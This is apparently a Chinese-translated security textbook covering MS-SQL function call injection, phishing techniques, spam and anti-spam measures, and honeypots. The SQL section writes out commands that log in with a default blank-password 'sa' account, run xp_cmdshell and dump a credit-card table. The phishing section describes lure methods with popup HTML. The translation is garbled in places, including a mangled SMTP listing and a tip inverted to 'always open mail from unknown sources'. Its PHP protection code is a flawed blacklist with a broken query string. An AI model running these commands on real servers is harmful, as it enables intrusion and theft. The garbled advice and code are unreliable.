函数调用注入（Function Call Injection）是通过适当命令触发任何数据库函数的过程。这些函数调用可以指向底层系统，也可以用于操作数据库中的数据。例如，让我们看看具有许多支持过程的 MS-SQL 2000：

- `sp password`: 更改密码
- `sp tables`: 显示数据库中的所有表
- `XP cmdshell`: 允许以管理员权限在服务器上执行任何命令。
- `XP msver`: 显示 SQL 版本以及运行操作系统的所有信息。
- `XP regdeletekey`: 删除 Windows 注册表中的键。
- `xp regdeletevalue`: 删除注册表值。
- `XP regread`: 输出注册表中的值。
- `XP regwrite`: 为键分配新值。
- `xp terminate process`: 终止进程。

在 MS-SQL 中，存在一个默认账户 `user = sa` 且密码（`pass = ""`）。许多 Web 服务器驱动程序忘记删除此账户。可以使用 `osql.exe`（使用 `telnet`、`Netcat` 等也同样有效）连接到 Web 服务器。

```
C:> osql.exe -?
osql: unknown option?
usage: osql [-U login id] [-P password] [-S server] [-H hostname] [-E trusted connection] [-d use database name] [-l login timeout] [-t query timeout] [-h headers] [-s colseparator] [-w columnwidth] [-a packetize] [-e echo input] [-I Enable Quoted Identifier] [-L list server] [-c cmdend] [-q "cmdline query"] [-Q "cmdline query" and exit] [-n remove numbering] [-m errorlevel] [-r msgs to stderr] [-V severitylevel] [-i inputfile] [-o outputfile] [-p print statistics] [-b On error batch abort] [-O use old ISQL behavior disables the following]
<EOF> batch processing
Auto console width scaling
Wide messages
default error level is -1 vs 1
[-? show syntax summary]
```

```
C: \> osql.exe -S 198.188.178.1 -U sa -P ""
```

如果我们得到类似的内容：
```
1>
```

这意味着连接成功。否则，会为 `user = sa` 显示错误信息。现在可以在服务器上使用 `XP cmdshell` 运行任何命令：

```
C: \ osql.exe -S 198.188.178.1 -U sa -P "" -Q "exec master.dbo.xp_cmdshell 'dir> dir.txt '"
```

```
C: \ osql.exe -S 198.188.178.1 -U sa -P "" -Q "select * from information_schema.tables"
```

```
C: \ osql.exe -S 198.188.178.1 -U sa -P "" -Q "select username, creditcard, expdate from users"
```

在许多 Web 系统中都可以找到 SQL 注入漏洞。根据 `http://www.acunetix.de/websitesecurity/sql-injection.htm`，全球约 50% 的网站容易受到 SQL 注入攻击。幸运的是，Web 服务器驱动程序也有一些良好的防御措施来防止 SQL 注入。

### 保护

与防止 XSS 的保护方法类似，对所有客户端输入进行严格的输入验证，从输入中移除所有 SQL 敏感字符，如 `'`、`;`、`-`、`select`、`union`、`insert`、`XP），以便攻击者不再向数据库发送 SQL 命令。在这里你可以重用 XSS 保护中的 PHP 脚本：

```php
function filter ($input) {
  $input = ereg_replace (" '", "", $input);
  $input = ereg_replace (";", "", $input);
  $input = ereg_replace ("-", "", $input);
  $input = ereg_replace ("select", "", $input);
  $input = ereg_replace ("union", "", $input);
  $input = ereg_replace ("insert", "", $input);
  $input = ereg_replace ("xp_", "", $input);
  return $input;
}
```

一个使用 PHP 函数 `mysql_real_escape_string()` 转义客户端输入的示例：

```php
$query = "SELECT column1 FROM table WHERE column2 = '".mysql_real_escape_string($_POST['column2value'])."; 
$query = mysql_query ($query) or die ("Database query failed!");
```

实现标准的错误处理。这包括为所有错误生成错误信息，以便攻击者不再能够利用数据库错误信息。

忘记此类默认系统账户（如 SQL Server 2000）。如果不是真的需要，请删除 `XP cmdshell`、`XP grantlogin` 等功能。

## 第 6 章 – 钓鱼攻击

### 什么是钓鱼攻击？

钓鱼攻击（Phishing）是一种自动化的身份盗窃。它向接收者发送虚假电子邮件，试图骗取接收者分享私人信息，如信用卡号或银行密码。最重要的是，发送到虚假网站的邮件会引导他们输入私人数据。为了获得信任，该网站必须与钓鱼者模仿的原始站点相似。“Phishing”一词显然是“password fishing”（密码钓鱼）的变体，因为钓鱼者抛出“鱼钩”，希望有几个受害者上钩。

### 工作原理和钓鱼方法

虽然钓鱼攻击的大体是让受害者落入虚假网站，但有几种技术使这一想法变为现实。目前介绍了最著名的三种方法：冒充、转发和弹出窗口。

- **冒充（Impersonation）**：是最简单且流行的钓鱼方法 [LiVi02]，该方法是一个精心设计的虚假页面供受害者访问。虚假网站包含真实网站的图片，这些图片不必非复制到钓鱼服务器，只需从原始网站备份即可。如果受害者在输入框中输入数据并点击提交，该数据将通过脚本处理发送到输入框中的钓鱼者。该方法的一个重要部分是编写一封带有虚假页面链接的钓鱼邮件。此类邮件看起来如下：关键受害者的邮件语言是攻击性的。虚假页面应与原始页面相同，因此你无法立即看出不同。
  - 原始：`http://www.securitybank.com/bank/cgi/show?id=45`
  - 虚假：`http://www.securitybank.net/bank/service/show?prameters=1`

- **转发（Forwarding）**：是一种利用电子邮件获取私人数据然后引导受害者进入真实网站的钓鱼技术。这种钓鱼风格在 eBay、PayPal、Amazon 等非常流行……它们经常向客户发送邮件分享优惠和新服务。使用这种技术，登录框（或特定输入框）将嵌入邮件中。当受害者输入数据并点击提交时，他们会被带到真实页面，但他们的数据被发送给了钓鱼者。此类邮件看起来像下方所示：登录脚本实际上与冒充脚本相似，只是在将受害者数据发送给钓鱼者后，登录脚本会将你带到真实网站。受害者更容易被这种技术欺骗，因为虚假的 URL 不显示。很难发现该 HTML 邮件来自另一个网站。

- **弹出窗口攻击（Popup Attack）**：是一种在将受害者重定向到真实网页期间，为钓鱼服务器弹出窗口的技术。弹出窗口的 HTML 代码很容易制作如下：

```html
<BODY bgColor = #ffffff
onload = "window.open ( 'phish.html ', 'popup ', 'top = 150, left = 250, width = 250, height = 200, toolbar = no, location = no, scrollbars = no, resizable = yes ' ) "> </BODY>
```

如果受害者点击邮件链接，虚假页面将立即变为真实。页面将重定向并打开一个带有输入框的弹出窗口，所有输入的内容都将发送给钓鱼者。然而，这种技术今天很少见，因为大多数浏览器都使用了弹出窗口拦截器。

### 保护

由于钓鱼邮件始终包含 HTML 表示且转发技术仍然带有脚本，因此通过关闭邮件程序的 HTML 显示和脚本来保护，从而禁用虚假的 HTML、链接和脚本。所有邮件将以纯文本形式显示以防止钓鱼。

使用钓鱼保护系统，将邮件头信息与最新的钓鱼列表进行比对，并检查链接（无论它们是否真实显示）。永远打开未知来源的邮件。安装反垃圾邮件系统来过滤垃圾邮件。

## 第 7 章 – 垃圾邮件


随着互联网的快速普及以及电子邮件在商务和个人领域的泛滥，发送不受欢迎的批量邮件（通常被称为垃圾邮件）已成为一个巨大的问题。这篇报告论文展示了电子邮件系统的哪些基本功能使得发送垃圾邮件成为可能，以及发送者是如何操作的。此外，文中还介绍了防止发送垃圾信息的各种方法，以及解决当前电子邮件系统问题的努力。

## 定义

垃圾邮件最广泛使用的国际术语是 `Unsolicited Bulk E-mail`（`UBE`），即未经请求的批量邮件——德语中也称为不受欢迎或未经请求的批量邮件。除了电子邮件垃圾邮件，其他媒体也存在垃圾邮件，例如即时通讯系统、书籍和网络博客中的评论垃圾邮件，以及通过自动电话磁带录音进行的电话垃圾邮件。本文专门关注 `UBE` 意义上的电子邮件垃圾邮件。

`spam` 一词最初源于垃圾产品 `SPAM` —— 由霍尔梅尔食品公司（Hormel Foods Corporation）生产的调味猪肉/火腿。该产品自 1936 年以来一直供应，并在 1970 年出现在英国喜剧剧《蒙蒂·派森的飞行马戏团》的一个短剧中，在该剧中作为菜单上每道菜的一部分出现，并受到一群唱歌的维京人的大声支持。[Merr04], [Pyth70]。该词在短剧中出现了 132 多次，这解释了它与垃圾邮件（email spam）之间的联系。

## 引言

虽然垃圾邮件在几年前才刚刚出现，但今天如果没有大规模的防垃圾邮件措施，使用电子邮件几乎是不可能的。

尽管不受欢迎的电子邮件问题早在 1975 年被 Postel [Post75] 以及于 1982 年被 Denning [Denn82] 注意到，但在当时，这实际上并不重要。1994 年 4 月 12 日，向成千上万个新闻组发送推广绿卡抽奖的消息是第一起重大的商业垃圾邮件新闻事件 [Camp94]。1997 年，垃圾邮件问题在官方网站上也受到了关注：美国贸易委员会处理了这一问题，并建立了一个打击腐败的工作组 [Comm97]。在过去的几年里，垃圾邮件发送量激增，到 2005 年底，其约占电子邮件流量的 80-85%。 [Grou96]。不幸的是，尽管在反垃圾邮件方面取得了许多进展，比尔·盖茨的以下说法尚未得到证实：

“两年后，垃圾邮件将被解决。我承诺在 2006 年实现一个没有垃圾邮件的世界。”

（微软首席执行官比尔·盖茨，2004 年 1 月）

## 类型

垃圾邮件可以分为不同的类别。[Lab06], [Mars]

> · 成人垃圾，例如推销壮阳药物、色情信息或约会服务
> · 财务邀约，例如贷款、影响价格的股票广告或所谓的彩票中奖利润
> · 旨在获取在线服务身份验证信息的虚假信息。

随着垃圾邮件过滤器的出现，发送者正试图获取经过伪装邮件的实际内容。这从简单的文本更改（如 `V14gra` 或 `\ / | 4grA`）到发送图片、`PDF` 和音频文件，因为这些内容更难分析。

退回（见第 2.5 节）本身并不是垃圾邮件，但它们是由于伪造发送者信息的邮件无法投递而产生的。今天，关于向假定发送者投递失败的信息有时比垃圾邮件本身更难处理，因为缺乏应对措施。

## 损害

如今发送的大量垃圾邮件给电子邮件用户和管理员造成了额外的网络流量、计算成本、内存需求和工作时间。

表 1 通过示例计算展示了垃圾邮件造成的巨大损害，以及只需少数接收者对垃圾邮件做出反应，发送者就能盈利。

## 起源

根据 Spamhaus 项目的统计数据 [Proj07]，大多数垃圾邮件从美国发送。美国之后是中国、俄罗斯、英国，德国位第五。

## 第 8 章 – 电子邮件系统的功能

发送垃圾邮件与电子邮件系统的工作原理密切相关。下面将进行解释。

### SMTP

当前的电子邮件系统基于 1982 年指定的 `SMTP` 标准 [Post82]， 并在 2001 年由 `ESSMTP` [Klen01] 更新。它就像互联网本身——去中心化，并规定了电子邮件从一个服务器到另一个服务器的传输。服务器上的服务程序称为邮件传输代理 (`MTA`)，负责接收和处理邮件。如果它收到的是发给本域内接收者的邮件，它将其放入对应用户的信箱中。否则，它通过 `SMTP` 发送到适当的电子邮件服务器，服务器是通过 `DNS` 确定的。列表 1 显示了通过 `SMTP` 进行的消息传输。

列表 1：SMTP 对话

```
220 s omehost. net ESMTP Exim 4\. 6 3 # 1 Mon, 26 Nov 2 0 0 7 2 3: 1 0: 2 1 +0100 HELO anotherhost. net
250somehost. net Hello localhost [1 2 7\. 0\. 0\. 1 ]
MAIL FROM: Bill < bill @ Microsoft.com >
250OK
RCPT TO Richard @ somehost.net
250Accepted
250 accepts
DATA
354 Entermessage, endingwith ". " Onaline by itself From Steve < steve @ Microsoft.com > To: Richard @somehost.net
Subject: iux iAg-id = 250 221 somehost.net closing connection
```

### 递

在互联网早期，待投递的电子邮件被简单地交给本地 `MTA`，这是当时流行的 UNIX 系统的标准功能。现在，电子邮件客户端（也称为邮件用户代理，`MUA`）通常将发送邮件发送到提供商的电子邮件服务器，由该服务器进一步传输。它也使用 `SMTP` 协议，但使用的是增强版本 `ESSMTP`，允许密码验证。`SMTP` 协议用于两个不同的应用程序——用户提交（`submission`）和邮件传输（`transfer`）使得 `MTAs` 的配置变得复杂且容易出错。因此，根据邮件提交规范 [GeKl98]，建议使用不同的 TCP 端口和协议扩展来分离终端用户的邮件持久化处理。

### 中继

中继是指通过 `SMTP` 接受和转发邮件。过去，`MTAs` 习惯于接受任意邮件并在必要将其传递。这种配置被称为开放中继（Open Relay）。由于这种实现方式后来鼓励了垃圾邮件的发送，因此这种做法已被基本放弃。现在，`MTAs` 只接受发往本域的邮件，除非发送者通过密码验证。

向第三方服务器传输邮件在故障转移安全方面起着作用。如果无法到达电子邮件服务器，邮件可以转发到交换服务器（`MX`，在 `DNS` 中指定），该服务器会缓存邮件并在相关服务器再次可用时进行投递。

### 邮件的真实性

电子邮件在技术上只是文本，由头部（`Header`）和正文（`Body`）组成。头部包含发送者、接收者、传输时间和操作员等元数据。正文包含邮件本身。

然而，头部仅作为接收者的额外信息。当通过 `SMTP` 协议发送时，发送者和接收者是明确指定的。这些信息被称为信封信息（Envelope Information），邮件接收者不可见。它们可能与邮件头部中的信息不同（参见列表 1）。


因此，报头信息可能包含任何值，特别是错误的发送者地址。此外，在传输过程中通常不会检查信封详情。具体而言，接收端服务器无法对发送者地址进行验证，因为 `SMTP` 标准并没有规定哪些服务器被允许为某个域名发送电子邮件。因此，邮件消息的真实性无法由邮件系统保证。

## 投递错误

原则上，如果 `MTA` 接收了某条消息，它就对该消息负责。如果它无法投递该消息，它会向发送者发回一条退信邮件（bounce message），说明投递失败的原因。例如，可能的原因是目标主机上的邮箱不存在或已满。如果是临时性错误（例如目标主机无法访问），它将尝试在长期内投递该消息。

> 第 9 章 – 成因

下文中指不同的原因，这些原因有利于垃圾邮件的发送，或者从源上使其成为可能。

### 低廉的传输成本

垃圾邮件的传输成本非常低，因为只需要一台连接到网络的计算机。这使得发送垃圾邮件变得极具吸引力，因为由于传输成本低，只需要极小比例的接收者对消息做出响应就能获利。

### 开放中继 (Open Relays)

开放中继使得批量发送消息变得简单，因为垃圾邮件者只需发送一次带有大量接收者的消息，然后由开放中继处理后续的传输。此外，开放中继让垃圾邮件者能够发送垃圾邮件，即使自己的地址已被列入黑名单。开放中继也可能由于 `MTA` 配置不当而无意产生。

### 僵尸计算机

僵尸计算机是互联网用户使用的计算机系统，它们被木马夺取了控制权，并形成了大量的所谓的僵尸网络（参见其他研讨论文）。这些计算机经常在所有者不知情的情况下被滥用于发送垃圾邮件。赛门星安全公司在 6 个月内监控了超过 500 万台被僵尸感染的计算机。[Corp07]。除了直接通过 `SMTP` 发送消息外，某些木马还会尝试获取邮件提供商服务器的凭据，并在身份验证后使用它们发送消息。

### 真实性无法验证

由于在没有进一步技术措施（如电子签名）的情况下无法检查消息的真实性和发送者信息的正确性，很难区分垃圾邮件和普通邮件。垃圾邮件必须手动筛选和删除，这一事实是接收者产生成本的主要原因。

### 对垃圾邮件者缺乏统一处理方法

由于互联网的国际性质以及缺乏统一的法律依据，不存在针对垃圾邮件者的统一方法。虽然一些国家现在制定了反垃圾邮件法，但另一些国家没有起诉垃圾邮件者的法律依据。

### 传输

由于始终可以根据 `IP` 地址找到一个或多个服务器，并由公共机构将其切下网络，因此垃圾邮件的传输通常由外部计算机执行。以前这通常是开放中继，而现在几乎完全是僵尸网络（许多僵尸计算机的集合）。

发送垃圾邮件的另一种方式是滥用网页上的邮件表单（邮件注入）。垃圾邮件者试图注入额外的报头，在最坏的情况下，他们可以可以向任何接收者发送任何内容的邮件。[Brau0]

> 第 10 章 – 垃圾邮件、钓鱼：应对措施

系统内介绍了一些应对措施。应对措施可以分为在现有系统中实施的措施以及尝试解决缺陷的措施。为了干扰正常邮件，建议使用白名单来排除它们。这些措施通常在邮件服务器上实施，但也可以在邮件客户端中实施。

## 垃圾邮件的处理

许多方法尝试区分垃圾邮件和合法邮件。本节解释了如何处理垃圾邮件。

### 拒绝 (Reject)

拒绝被分类为垃圾邮件的消息的优点是它们不会给邮件系统负担，缺点是误判的消息无法到达接收者。对此有两种方法：

- 接收消息并在随后产生退信邮件：这种方法的好处是技术上更容易先接收消息，但由于退信邮件发送给了伪造发送者，这种方法并不适用。
- 在 `SMTP` 对话期间拒绝消息（见列表 2）：这种方法要求在传输期间进行检查，因此对技术要求更高。直接拒绝可以将垃圾邮件服务器从列表中移除。如果是合法邮件，拒绝的 `MTA` 会产生退信邮件。

### 删除 (Delete)

静默删除消息与拒绝具有相同的效果。但是，如果是合法邮件，发送者会认为消息已成功投递，而接收者从未收到。

### 标记 (Mark)

最常见的方法是标记问题消息并将其移动到垃圾邮件文件夹，以便接收者可以检查并然后删除消息。这种方法的好处是误判的消息仍然会到达接收者。但在实践中，产生的问题是接收了大量的垃圾邮件，而用户经常不看就清空垃圾邮件文件夹。那么效果与静默删除相同，即比拒绝更差。

通常结合多种方法。因此，在一个误判率很低的分类方法中可以直接拒绝消息，而在不明确的方法中仅进行标记。

## 系统内措施

本节介绍了一些可以在现有邮件系统中使用的反垃圾邮件措施。

### 黑名单

在接收消息时，会对黑名单扫描或查询发送者的 `IP` 地址。最常见的类型是发送过垃圾邮件的服务器黑名单，还有违反 `SMTP` 标准的服务器列表以及拨号地址列表。垃圾邮件发送服务器黑名单通常用于直接拒绝来自这些服务器的消息。这反过来迫使服务器运营者控制通过服务器发送的消息。

黑名单条目可以手动或自动添加，例如通过捕蜜罐。

### 灰名单 (Greylisting)


灰名单（Greylisting）是黑名单的一种弱形式。邮件在首次投递时会被之前未知的发送者拒绝并缓存在灰名单中，但在随后的第二次尝试中会被接受，且发送者将被保存为已知。该方法基于 `SMTP` 标准，当目标主机报告临时错误时，它会以不断增加的间隔重新投递邮件。发送垃圾邮件通常会跳过这第二次尝试。代价是接收新通信伙伴的首条消息会有延迟，但该过程非常有效。作者在自己的服务器上观察到，灰名单中的消息只有不到 1/3 被重新投递。通常，该过程与来自大型提供者的邮件服务器白名单相结合，这些提供者不遵守 `SMTP` 标准或在投递尝试中使用切换的服务器。

## 哈希列表（Hashlists）

除了黑名单之外，还有存储垃圾邮件本身哈希值的列表。对于大量订阅者提交垃圾邮件的情况，“新”垃圾邮件会被及时投递，请求此类列表的邮件服务器可以对其进行适当处理。例如“分布式校验和和清理中心”（`DCC`，[Soft]）。

## 垃圾邮件过滤器（Spam filter）

垃圾邮件过滤器根据内容对消息进行分类，通常使用多种评分标准的组合：

> · 经常会使用一组固定的规则，这些规则包含在垃圾邮件中经常出现的加权标签，例如过度使用大写字母、图像与文本的高比例，或潜在增强器工具的伪装名称。通过结合大量的规则，识别率非常高，但规则必须始终保持更新，因为垃圾邮件发送者会刻意保护其邮件免受知名垃圾邮件过滤器的检测。

> · 学习方法（例如 `Bayesian Filter` [AKCP + 00]）基于用户反馈。在此过程中，用户将被分类不正确的消息（包括误报（正常邮件/ham）和未识别的垃圾邮件）传回给过滤器，过滤器会逐渐进行自我适应。贝叶斯评分可以存储在通用数据库或个人数据库中。这种方法的巨大优势是，与固定规则不同，它能够适应组织或个人的特定邮件流量。

> · 使用此处介绍的其他方法，如黑名单、哈希列表、`SPF` 条目或 `DKIM` 签名。

分类的结果通常是一个指示该消息为垃圾邮件概率的值。从某个阈值开始，如果该值特别高，消息可以被标记并移动到另一个文件夹或直接被拒绝。

## 病毒扫描器（Virus Scanner）

病毒扫描器根据签名检测消息中包含的病毒。在有合法更新的情况下，病毒的检测率很高，误报率极低。

## 系统改进措施（System Improvement Measures）

以下反垃圾邮件措施试图解决现有邮件系统的问题。

### 不通过拨号地址发送（No Shipping Via Dial-Up Addresses）

由于邮件服务器不接受直接来自拨号地址的邮件，通过被劫持计算机进行的发送可能会破解。这些地址可以通过黑名单识别。这些地址的用户必须通过其邮件提供者的服务器发送邮件，通常需要密码。这一应对措施已很大程度上实施。所有邮件提供商都支持使用密码发送（`SMTP-AUTH`），并且许多服务器正在运行。

此措施也意味着在家庭互联网连接上运行私人邮件服务器已不再容易。

### 发送者验证（Sender Verification）

为了防止指定任意发送者地址并确保消息的真实性，已经开发了多种方法，可以确定由哪些邮件服务器代表域名发送邮件。

发送者策略框架（`SPF`）在特殊的 `DNS` 记录中指定哪些主机可以代表该域名发送邮件以及从其他主机发送消息。这些条目可以由接收邮件服务器进行查询和检查。根据结果，消息可能违反了严格声明。在垃圾邮件过滤器的审查中，成功的审查可能较弱。该方法允许渐进式引入，如果尚未被所有邮件提供者使用，它将是有益的。一个缺点是必须付出额外努力以确保消息的转发（例如在邮件列表或私有转发的情况下）能够像以前一样正常工作。

以下 `SPF` 条目指定仅允许该域名 `DNS` 记录指向的服务器代表 `somehost.net` 域名发送邮件。

**列表 4：SPF 条目示例**

```
somehost.net. 3 6 0 0 IN TXT "v = spf 1 a - all"
```

`DKIM` [ACDL + 07] 方法使用公钥加密。消息（包括头信息）由邮件服务运营者使用私钥签名，该运营者通过密码验证了发送者，并可以使用公钥打开和验证。公钥通常通过 `DNS` 记录提供。该程序还支持公布策略，即域名是否必须对所有发送的邮件进行签名，从而允许通过 `SPD` 直接拒绝违反此策略的消息。此外，消息正文的签名可以确保消息自签名以来未被更改。该过程已被 Gmail、Yahoo 以及其他服务使用。类似的方法还有 Sender ID 和 DomainKeys，它是 `DKIM` 的前驱。

**列表 5：邮件头中的 DKIM 签名示例。头部的详细信息 Sender、Recipient、Better 和 Date 已已签名。**

```
a = rsa - sha 1; q = dns;
d = example.com;
i = user@eng.example.com;
s = jun 2 00 5.tight; c = relaxed / simple;
t = 1 1 1 7 5 7 4 9 3 8; x = 1 1 1 8 0 0 6 9 3 8;
h = from: to: subject: date;
b = dzdVyOfAKdJOG4Z
```

### 投递费（Delivery Charges）

有解决廉价邮件问题的想法。通过支付小额金额或解决计算任务使销售变得昂贵。引入真实的支付系统似乎不太可能，因为需要一个所有用户都必须认可的中央机构。计算任务尚未被使用。在这两种情况下，产生的问题是除了垃圾邮件外，许多合法邮件也被大量发送，且这些方法对于发送者来说并不合理。

## 第 11 章——立法（Legislation）

### 美国（USA）

在美国，`CAN-SPAM Act`（2003 年控制非骚扰色情和营销法案，[Cong03]）于 2003 年 12 月生效，并导致了一系列判决，其中包括监禁。

### 欧洲（Europe）

在欧盟，垃圾邮件的术语是“未请求的商业邮件”（`UCE`），因此排除非商业垃圾邮件。2003 年 10 月 31 日，一项关于数据保护的欧盟指令生效 [Unio02]，规定只有在获得接收者事先同意的情况下才能发送邮件广告，前提不是为了维护现有的客户关系。它还禁止使用“发送者”和“非法”地址，因为垃圾邮件发送者经常使用这些。然而，该指令本身不是法律，必须首先由成员国转化为具体的法律。在德国，这是通过 2007 年的《电信媒体法》（`TMG`）完成的。它规定发送垃圾邮件可处以高达 50,000 欧元的罚款。然而，这仅为接收者通过消费者保护协会间接提供了法律依据。

与美国不同，垃圾邮件在德国仅在民事法中处理，而不涉及刑法。

## 判决（Judgments）


以下判决说明了美国刑事额外起诉与欧洲民法系之间的区别。

> · 美国，2004 年 11 月：Jeremy Jaynes 根据弗吉尼亚州法律被判处 9 年监禁。[Brie06]
> · 美国，2006 年 9 月：Daniel Lin 根据 `CAN-SPAM Act` 被处以 10,000 美元罚款并监禁三个年。[Kuri04]
> · 荷兰，2007 年初：一名荷兰人因发送垃圾邮件被罚以 75,000 欧元的罚款。[Kuri07]

## 展望

近年来，通过利用黑名单打击开放式中继（open relays）并限制使用拨号地址发送邮件，邮件管理变得更有秩序了。尽管更先进的技术防御措施一直面临垃圾邮件发送者用各种狡猾技巧的抗衡，但它们确实减轻了终端用户的负担。然而，新的标准（例如正变得越来越广泛的 `DKIM` 签名程序）表明，消除现有邮件系统的弱点将使未来垃圾邮件的发送变得极度困难。

## 第 12 章 – 蜜罐（Honeypots）

本著作是关于蜜罐的概念。在此过程中，我将首先讨论什么是蜜罐，并尝试找到一个合适的定义。之后，我将解释 `Honeypots` 可以提供哪些服务，哪些不能。在此背景下，我将介绍不同类型蜜罐之间的要区别。然后，我解释了它们是如何发展的。第三部分将处理蜜罐的分类以及每个类别的特征。之后，我将强调使用蜜罐的优缺点，并详细描述一些蜜罐的示例。

当互联网在 1970 年左右首次运行时，人们完全不知道它会发展成什么什么样。但随着互联网的引入，人们发现了许多意想不到的可能。今天，没有互联网的生活是不可想象的。你可以与世界各地的人交流、交换数据，等等。由于互联网的巨大增长，新的技术被反复尝试和开发，以扩展这种媒介的应用范围。同时，作为简单通信媒介的互联网已成为私人网络和商业网络共同发展的平台。如今，除了聊天室或电子邮件等私人通信外，银行转账或在线订单等商业交易，以及适当的在线注册和注销也成为可能。

但同时也带来了许多危险。巨大的增长伴随着对互联网海量数据流日益增多的攻击。因此，对数据保护的需求显著增加。攻击者与互联网安全专家之间产生了一场真正的竞赛。攻击者总是试图寻找新的方法手段访问重要数据，而安全专家则通过开发保护机制来应对。尽管如此，新方法层出不穷，因此未来研究新的安全技术同样极其。这是一个重要的帮助。这就是为什么我将在下文中介绍这些。

## 什么是蜜罐？– 蜜罐的定义

在后续章节解释蜜罐的属性之前，首先必须找到蜜罐的合适定义，以便确切知道蜜罐以及它们能做什么。从系统角度上来说，蜜罐是作为攻击者诱饵的系统。在网络内部，它们不提供有意义的服务，因此不会从系统内部直接访问，因此任何联系它们的尝试都会导致攻击者无法获取系统配置。寻找一个清晰的定义并不容易，因为有很多种。之所以有这么多不同的定义，是因为蜜罐可以应用于许多不同类型的网络应用程序。与互联网上的许多其他安全技术不同，它们并非针对特定问题，而是试图覆盖尽可能宽的带宽范围。例如，防火墙的设计是为了防止攻击者访问系统。相比之下，蜜罐不仅试图检测未经授权的系统访问，还试图检测木马、蠕虫和其他攻击。在此过程中，蜜罐只收集与计算机攻击直接相关的记录，并在必要时对其进行评估。因此，蜜罐在攻击及其方法论方面处理的是较少但高度相关的数据，而防火墙和防病毒软件等其他程序处理的是海量数据，因为它们持续控制整个数据流，以与已知模式匹配，或监控所有程序对系统资源的访问权限。一个良好且在我看来非常好的定义可以在 Lance Spitzner 的书《蜜罐》（Honeypots Tracking Hackers）中找到。在那里，蜜罐被定义为：

蜜罐是一种安全资源，其价值在于被攻击或被攻破

这正是蜜罐与其他安全技术之间的区别。人们希望通过对蜜罐进行攻击来学习关于攻击以及攻击者本身的新知识。`Honeypots` 有许多可能的用途。例如，它们可以检测并分析蠕虫攻击，或者在早期识别并指出未经授权的系统访问。尽管应用程序可能的用途如此不同，蜜罐本身也大如此。

你可以大致将蜜罐分为两类：生产蜜罐和研究蜜罐。生产蜜罐主要用于公司和私有部门。使用这种蜜罐，攻击只能被确定。然而，这也有一个优势，即这些蜜罐更容易处理。相反，研究蜜罐正如其名，用于研究目的。使用这种类型的蜜罐，不仅能检测攻击，还能收集并评估关于攻击及其攻击者的大量信息。这是为了获得对攻击者方法和工具的新见解。这些随后被用于开发新的安全技术，以在未来更好地保护系统。

蜜罐比生产蜜罐复杂得多且难以使用。除了类型区分，还可以对所有蜜罐进行分类。总共有三类：低交互、中交互和高交互蜜罐。分类取决于攻击者与蜜罐有多少种交互可能性。将在后的章节对每个类别给出更详细的解释。

## 蜜罐的历史

在对蜜罐进行定义和首次介绍之后，现在是时候回顾起源了。蜜罐的概念已经有一段时间历史了。然而，蜜罐的概念尚未以目前的名称广为人知。直到最近，蜜罐的概念才真正流行起来。


1990 年，关于这一主题有两个不同的出版物。第一本是克利福德·斯托尔（Clifford Stoll）的一本书，名为《布谷鸟蛋》（The Cuckoo 's Egg）。当时克利福德·斯托尔从事计算机系统工作，发现一名攻击者访问了该系统的数据。但他并没有压制这种愤怒，而是决定让攻击者继续进行，转而观察他。这给了他收集大量关于攻击者的机会。斯托尔观察攻击者的系统并不是现代意义上的蜜罐（honeypot）。相反，它是一个包含敏感数据的真实系统。然而，通过这本书，今天蜜罐的第一方法和理念已得到了广泛认可。虽然附带系统不能被描述为蜜罐，因为它并不是专门为了收集攻击信息设计的，但观察入侵者背后的基本思想是一样的。

当年的第二次发布来自比尔·切斯维克（Bill Cheswick）。这是一篇名为《与 Berferd 共度的一个夜晚：诱捕、忍受并研究一个黑客的经历》（An Evening with Berferd in Which a Cracker Is Lured, Endured, and Studied）的论文。与斯托尔的书的区别在于，他们拥有一个专门设计用于攻击的系统。因此，从定义上来说这是一个蜜罐，即使切斯维克没有这样命名。该文档描述了该系统是如何创建的及其属性。与斯托尔的书一样，切斯维克也描述了攻击者如何尝试访问他的系统，以及他从中学到了什么。

蜜罐历史上下一个重要的日期是 1997 年。那一年发布了第一个在个人私人计算机上安装和使用蜜罐的程序。它被称为`Deception Toolkit`（`DTK`），由弗雷德·科恩（Fred Cohen）编写。该运行蜜罐的程序主要目的是收集有关攻击者活动的信息并迷惑他们。

次年，作为`DTK`的扩展，开发了另一个名为`CyberCop Sting`的蜜罐产品。在使用时，`CyberCop Sting`为用户提供了两个重要的新功能。第一个是该程序不是运行在`Unix`上，而是运行在`Windows NT`上。第二个更重要的区别是，`CyberCop Sting`可以运行许多种并行系统。例如，它可以同时复制`Cisco`、`Solaris`和`NT`应用程序。这大大增加了受到攻击的机会。尽管该产品具有许多优点和易用性，但它在市场上从未真正成功过。

1998 年，马蒂·罗斯（Marty Roesch）开发了一个名为`NetFacade`的程序。它可以模拟多达七种类型的应用程序，允许最多 254 个系统。虽然该程序并不知名，但它对蜜罐的开发有很多益处。

`Back Officer Friendly`在同年开发。该程序将在后面的章节中进一步阐述，它简单易用，尽管功能有限，但让广泛受众首次真正接触了蜜罐概念。`Back Officer Friendly`是免费的且非常容易安装。这使得人们可以在没有太多先验知识的情况下下载并应用。

1999 年，蜜罐网络项目（Honeynet Project）终于成立了。该项目的团队由志愿者安全专家组成，专注于蜜罐网络（honeynets）的使用。这些将在后面的章节中进行解释。

由于 2000 年后蠕虫攻击的快速增加，得益于良好的效果，蜜罐被越来越多的使用，并越来越被接受为对抗互联网攻击的工具。

## 蜜罐的分类

在蜜罐的定义方面，已经简要介绍了两种蜜罐类型。这两种类型是生产蜜罐和研究蜜罐。首先，生产蜜罐用于检测和指示入侵，以便在必要时使用适当的安全技术进行反制。相反，研究蜜罐不仅用于检测和反制攻击，还用于了解攻击者及其方法。此外，蜜罐还有三种不同的分类。这些是低交互蜜罐、中交互蜜罐和高交互蜜罐。蜜罐的分类顾如其名，取决于与蜜罐进行交互的强度。通过对蜜罐进行分类，人们还可以对它们进行相互比较。比较选项也有助于选择哪种类型的蜜罐。然而，人们必须清楚想用蜜罐做什么。例如，如果你只想检测和监控系统上未经授权的访问，那么一个低交互蜜罐就足够了。

另一方面，如果想了解有关攻击者方法的信息，就必须选择高交互的复杂蜜罐。然而，在选择蜜罐时应该注意，与蜜罐交互的机会越多，安全风险就越大。蜜罐类别的不同表达和属性将在后续章节中进行详细描述。

## 低交互蜜罐

